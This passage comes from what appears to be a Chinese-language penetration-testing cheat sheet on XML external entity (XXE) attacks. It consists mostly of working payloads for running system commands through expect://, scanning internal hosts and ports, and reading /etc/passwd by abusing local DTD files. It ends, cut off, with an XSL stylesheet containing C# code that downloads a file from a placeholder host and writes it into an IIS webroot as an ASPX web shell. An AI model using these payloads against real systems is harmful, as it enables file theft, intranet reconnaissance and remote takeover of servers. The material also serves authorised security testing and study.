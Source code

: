 	不同平台支持的协议
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/11.png)

  ##### 执行命令
	安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ELEMENT name ANY >
	<!ENTITY xxe SYSTEM "expect://id" >]>
	<root>
	<name>&xxe;</name>
	</root>
  ##### 内网主机探测
	可先读取/etc/network/interfaces、/proc/net/arp、/etc/hosts等文件查询IP段
	使用脚本
  ##### 内网端口扫描
	<?xml version="1.0" encoding="utf-8"?>  
	<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
	<!ELEMENT data (#PCDATA)>  
	]>
	<data>4</data>
	可使用burpsuite的intruder模块进行遍历
  ##### 内部DTD利用
	Linux
	<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamsa 'Your DTD code'>
	%local_dtd;
	Windows
	<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
	<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
	%local_dtd;
	<?xml version="1.0" ?>
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

	<!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

	%local_dtd;
	]>
	<message>any text</message>
  ##### XXE写shell
	当XXE支持XSL时
	<?xml version='1.0'?>
	<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:msxsl="urn:schemas-microsoft-com:xslt"
	xmlns:user="http://mycompany.com/mynamespace">
	<msxsl:script language="C#" implements-prefix="user">
	<![CDATA[
	public string xml()
	{
	    System.Net.WebClient webClient = new System.Net.WebClient();
	    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                       @"c:\inetpub\wwwroot\shell.aspx");
	
